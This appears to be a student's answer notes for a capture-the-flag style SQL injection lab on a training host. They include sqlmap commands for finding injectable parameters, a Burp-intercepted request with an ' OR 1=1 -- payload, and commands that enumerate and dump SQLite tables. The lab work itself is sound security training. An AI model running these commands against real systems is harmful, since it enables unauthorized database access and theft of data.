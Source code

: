 Tasks

======

0. SQLi - Basic Injection Discovery
The first step in exploiting SQL injection vulnerabilities is to identify which parameters are vulnerable.
Your goal is to identify which parameters in the application’s web pages are susceptible to SQL injection attacks. For that you should:

Access the machine cyber_websec_0x01 through the VPN.
Navigate to: http://web0x01.hbtn/a3/sql_injection/. (dont forget to edit your /etc/hosts)
Search for the vulnerable paramters.

R:

sqlmap:
sqlmap -u "http://web0x01.hbtn/api/a3/sql_injection/all_orders?status=paid" --tamper=space2comment --level=5 --risk=3 --dbs

BurpSuite:

in interception
GET /api/a3/sql_injection/all_orders?status=%27%20OR%201%3D1%20-- HTTP/1.1

======

1. SQLi - Extracting Database Information
Now that you’ve identified a vulnerable parameter, your next task is to find a flag ⛳️:

Extract information about the database itself:
Database Version.
Tables.

======

2. SQLi - Data Exfiltration from a Specific Table
With knowledge of the database structure, your goal is to extract sensitive data from a specific table.
The target for this exercise is a flag ⛳️ stored within one of the tables you previously identified.

R:
sqlmap:
sqlmap -u "http://web0x01.hbtn/api/a3/sql_injection/all_orders?status=paid" --dbms=sqlite --tables
sqlmap -u "http://web0x01.hbtn/api/a3/sql_injection/all_orders?status=paid" --dbms=sqlite --dump -T not_me

ctrl C

======

